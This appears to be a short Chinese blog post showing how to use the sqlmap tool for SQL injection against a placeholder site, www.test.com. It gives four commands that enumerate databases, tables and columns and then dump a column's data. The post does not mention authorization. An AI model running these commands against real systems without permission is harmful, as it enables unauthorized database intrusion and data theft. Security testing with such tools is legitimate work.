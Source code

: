+++
title = 'Sqlmap检测SQL注入攻击'
date = 2017-12-01T13:21:45+08:00
draft = false
tags = 'Hacker'
categories = '信息安全'
+++

#### 这款工具好用，检测SQL漏洞注入精确，国内也有好几个SQL注入工具，博主以前也写过注入类似渗透工具，跟啊D注入、明小子注入，那个时代；  

### 1、测试SQL注入：
``` c {linenos=inline}
sqlmap -u http://www.test.com/index.php?id=1 --dbs
```
### 2、获得某个数据库中的表：
![sqlmap](https://cos.hkfx.net/attachment/1512105330_2125f450.jpg)

``` c {linenos=inline}
sqlmap -u http://www.test.com/index.php?id=1 --dbs -D some_db --tables
```
### 3、获得表的字段：
``` c {linenos=inline}
sqlmap -u http://www.test.com/index.php?id=1 --dbs -D some_db --tables -T some_table --columns
```
### 4、下载某一字段的数据：
``` c {linenos=inline}
sqlmap -u http://www.test.com/index.php?id=1 --dbs -D some_db --tables -T some_table --columns -C some_col --dump
```

神器[下载地址](https://sqlmap.org)，因为看到有人留言想要，还说想要源码，好吧、更新贴出它们官方网站吧。